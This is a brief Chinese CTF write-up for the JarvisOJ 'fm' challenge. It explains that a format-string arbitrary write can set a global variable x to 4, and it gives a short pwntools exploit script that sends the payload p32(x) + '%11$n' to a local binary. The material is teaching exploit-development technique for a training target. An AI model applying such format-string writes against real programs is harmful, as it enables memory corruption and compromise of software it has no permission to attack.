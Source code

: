 ```yaml
---
title: "jarvisoj_fm"
description: ""
date: 2023-04-07T14:10:11+08:00
lastmod: 2023-04-07T14:10:11+08:00
draft: false
images: []
type: docs
weight: 980
toc: true
---
```


## 0x01 分析

![3af8628a9609d7bbd5f140af4a1e39ed](images/3af8628a9609d7bbd5f140af4a1e39ed.png)  

格式化字符串任意写将x覆盖为4即可

## 0x02 Exploit

```python
from pwn import*
o = process("./pwn")
elf = ELF("./pwn")
x = elf.sym['x']

payload = p32(x) + b'%11$n'
o.sendline(payload)

o.interactive()

```

![ac6ddacf3f0af92594e45b783837e42b](images/ac6ddacf3f0af92594e45b783837e42b.png)  

自行调试
